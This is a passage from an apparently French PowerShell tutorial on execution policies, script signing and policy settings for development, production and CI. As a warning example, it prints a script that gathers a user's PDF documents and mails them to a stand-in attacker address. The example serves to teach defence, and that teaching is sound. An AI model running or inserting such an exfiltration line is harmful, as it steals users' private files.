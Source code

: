 #### Exemple pratique : Les dangers

**Scénario dangereux :**
```powershell
# Un utilisateur télécharge "script-utile.ps1" depuis un email
# Ce script contient en réalité :
Get-ChildItem C:\Users\$env:USERNAME\Documents\*.pdf | 
    ForEach-Object { Send-MailMessage -To "hacker@evil.com" -Attachments $_.FullName }
# → Vole tous les PDFs et les envoie à un attaquant !
```

**Avec RemoteSigned :**
```
PS> .\script-utile.ps1
Execution of scripts is disabled on this system.
For more information, see about_Execution_Policies at https://go.microsoft.com/fwlink/?LinkID=135170.
```

#### Signature numérique des scripts

Pour les environnements d'entreprise, signez vos scripts :

```powershell
# Créer un certificat de test (développement uniquement)
$cert = New-SelfSignedCertificate -Type CodeSigningCert -Subject "CN=MonScript" -CertStoreLocation Cert:\CurrentUser\My

# Signer un script
Set-AuthenticodeSignature -FilePath ".\mon-script.ps1" -Certificate $cert

# Vérifier la signature
Get-AuthenticodeSignature -FilePath ".\mon-script.ps1"
```


---

### 4.1. Politique d'exécution & sécurité - Configuration pratique

| Scénario     | Commande                                              | Usage typique                             |
| ------------ | ----------------------------------------------------- | ----------------------------------------- |
| Dév local    | `Set-ExecutionPolicy -Scope CurrentUser RemoteSigned` | Scripts locaux libres, téléchargés signés |
| Production   | `Set-ExecutionPolicy AllSigned`                       | Conformité / traçabilité                  |
| Invité CI/CD | `-ExecutionPolicy Bypass` (argument isolé)            | Job éphémère, pas de changement permanent |

> **Bon réflexe** : signez vos scripts (*.ps1*) avec un certificat d’éditeur interne.

---

### 4.2. PSResourceGet : le nouveau gestionnaire de modules
